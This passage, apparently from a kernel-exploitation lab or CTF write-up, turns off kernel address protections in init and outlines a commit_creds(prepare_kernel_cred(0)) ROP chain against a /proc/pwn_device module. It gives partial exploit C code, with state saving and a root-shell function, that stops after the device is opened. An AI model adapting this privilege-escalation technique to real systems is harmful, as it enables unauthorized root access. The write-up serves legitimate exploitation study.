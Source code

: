  
I modified init in fs/ adding those lines just before the exec

    echo 0 > /proc/sys/kernel/kptr_restrict
    echo 0 > /proc/sys/kernel/perf_event_paranoid
    echo 0 > /proc/sys/kernel/dmesg_restrict

So we can read address from /proc/kallsyms, this time the privilege escalation technique will be the more known
`commit_creds(prepare_kernel_cred(0))` , so we need `pop rdi` to put 0 in prepare_kernel_cred.. the rest of ropchain is kinda the same so we need to return to userland. What changed from the others payload is that we need to create a function for our signal:

    void get_root(){
            if (getuid() == 0){
                    printf("And we are root\n");
                    system("/bin/sh");
            }else{
                    printf("Not root\n");
                    exit(0);
            }
    }

So our final exploit is:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <signal.h>

int fd;

unsigned long user_cs, user_ss, user_sp, user_rflags;
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}

void get_root(){
	if (getuid() == 0){
		printf("And we are root\n");
		system("/bin/sh");
	}else{
		printf("Not root\n");
		exit(0);
	}
}

int main(){

	save_state();

	fd = open("/proc/pwn_device", O_RDWR);
	if (fd < 0){
		printf("Cannot Open Device\n");
```